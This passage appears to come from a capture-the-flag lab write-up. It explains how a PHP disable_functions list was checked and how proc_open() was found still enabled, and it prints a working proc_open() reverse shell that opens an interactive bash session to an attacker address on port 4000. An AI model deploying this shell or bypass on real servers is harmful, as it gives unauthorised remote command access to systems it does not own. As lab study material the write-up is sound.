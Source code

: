 Huh, it's an **Internal Server Error**. Considering that the previous attempt worked well, chances are [some PHP functions are disabled](https://www.php.net/manual/en/ini.core.php#ini.disable-functions). This is done using `disabled_functions`, and we can check by running `phpinfo()`, so let's do that:

```
disable_functions:

pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,pcntl_unshare,error_log,system,exec,shell_exec,popen,passthru,link,symlink,syslog,ld,mail,stream_socket_sendto,dl,stream_socket_client,fsockopen
```

There are a **lot** of disabled functions, but one that is not disabled is `proc_open()`. This can be found using the tool [dfunc-bypasser](https://github.com/teambi0s/dfunc-bypasser), as recommended by [ippsec](https://www.youtube.com/watch?v=yW\_lxWB1Yd0) and [0xdf](https://0xdf.gitlab.io/2023/01/21/htb-updown.html#devsiteisuphtb). A `proc_open()` reverse shell can be pretty simple:

```php
<?php
        $descriptor_spec = array(
                0 => array("pipe", "r"),
                1 => array("pipe", "w"),
                2 => array("pipe", "w")
        );
        $cmd = "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.22/4000 0>&1'";
        
        proc_open($cmd, $descriptor_spec, $pipes);
?>
```

A basic reverse shell to port 4000. Let's do the exact same thing and pray it works.

<figure><img src="../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>
